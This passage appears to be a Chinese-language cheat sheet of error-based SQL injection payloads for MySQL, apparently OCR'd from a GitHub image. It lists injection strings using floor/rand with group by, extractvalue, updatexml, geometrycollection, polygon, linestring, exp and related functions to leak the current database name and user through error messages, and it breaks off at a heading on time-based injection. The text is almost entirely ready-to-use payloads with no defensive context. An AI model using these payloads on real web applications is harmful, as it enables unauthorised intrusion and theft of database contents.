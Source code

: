 ###### 报错注入总结和示例

- floor()和rand()

```
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a       /*利用错误信息得到当前数据库名*/
```

- extractvalue()

```
id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```

- updatexml()

```
id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
```

- geometrycollection()

```
id=1 and geometrycollection((select * from(select * from(select user())a)b))
```

- multipoint()

```
id=1 and multipoint((select * from(select * from(select user())a)b))
```

- polygon()

```
id=1 and polygon((select * from(select * from(select user())a)b))
```

- multipolygon()

```
id=1 and multipolygon((select * from(select * from(select user())a)b))
```

- linestring()

```
id=1 and linestring((select * from(select * from(select user())a)b))
```

- multilinestring()

```
id=1 and multilinestring((select * from(select * from(select user())a)b))
```

- exp()

```
id=1 and exp(~(select * from(select user())a))
```

##### 基于时间
